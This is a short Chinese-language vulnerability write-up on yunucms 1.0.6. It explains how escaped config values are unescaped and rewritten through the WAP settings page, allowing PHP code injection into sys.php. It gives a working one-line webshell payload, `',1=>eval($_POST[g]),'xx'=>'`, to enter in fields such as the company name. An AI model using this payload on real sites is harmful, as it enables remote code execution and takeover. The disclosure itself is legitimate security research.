 漏洞环境：yunucms1.0.6

php：5.6.40

# 漏洞分析

漏洞点在/app/admin/controller/System.php的basic方法下

![image-20230626110633493](images/1.png)

对于传过来的数据会通过add_slashes_recursive转义，然后写入/config/extra/sys.php中

![image-20230626110637699](images/2.png)

此时sys.php内容如下

![image-20230626110711362](images/3.png)

但是在/app/admin/controller/Wap.php的index方法中

![image-20230626111921205](images/4.png)

会重写加载配置文件，是会把转义后的字符还原的，然后再调用setConfigfile重写写入配置文件，就能够配置之前的单引号，逃逸php代码，最后的配置文件

![image-20230626112017033](images/5.png)

至于为什么要在wap设置中呢，因为wap设置中和基础设置所涉及的config字段不一样

# 漏洞复现

yunucms是通过thinkphp5二次开发的，访问路由和thinkphp一样

```
Payload：',1=>eval($_POST[g]),'xx'=>'
```

在公司名称等地方都可以填

![image-20230626111212480](images/6.png)

写入配置文件后，用wap设置重新更新配置文件，相当于二次注入

![image-20230626111202977](images/7.png)

看到改变后的代码

![image-20230626111457198](images/8.png)

虽然报错了，但是可以直接连接

![image-20230626111812717](images/9.png)





参考链接：

https://blog.csdn.net/qq_23936389/article/details/84967441